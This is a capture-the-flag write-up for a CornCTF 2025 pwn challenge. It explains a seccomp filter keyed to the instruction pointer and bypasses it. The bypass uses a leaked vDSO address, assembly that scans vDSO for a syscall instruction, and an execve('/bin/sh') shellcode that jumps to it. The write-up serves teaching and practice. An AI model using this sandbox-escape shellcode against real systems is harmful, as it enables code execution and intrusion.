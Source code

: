 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challange in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](./images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](./images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)`. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](./images/he_protecc-013.png)
## mmap my beloved

> [!info]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use `strace` and read the command from there:

![](./images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](./images/he_protecc-014.webp)

The `prctl` call sets the NO_NEW_PRIVS flag, why?  It is a security measure to stop privilege escalation put before a seccomp filter ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The syscall sets a seccomp filter (317 = sys_seccomp) on the binary.

> [!info]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does the seccomp filter filter?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but thats not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  No syscalls in the mmap region :( BUT WAIT

So what can we find after `0x500fff` but before `0x7fffffffffff`?

![](./images/he_protecc-015.webp)

Looking at the mappings with `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!info]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](./images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle the problem one after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](./images/he_protecc-017.webp)

## The Pwn

Now comes the difficult part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

Now let's scan the memory area:

```
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases r8 (pointer to vdso leak) and take two bytes, it then check if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, r8 will point to a valid syscall instruction, and we can continue with setting the registers for a execve call.

```
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8
```

and boom, we have a shell.

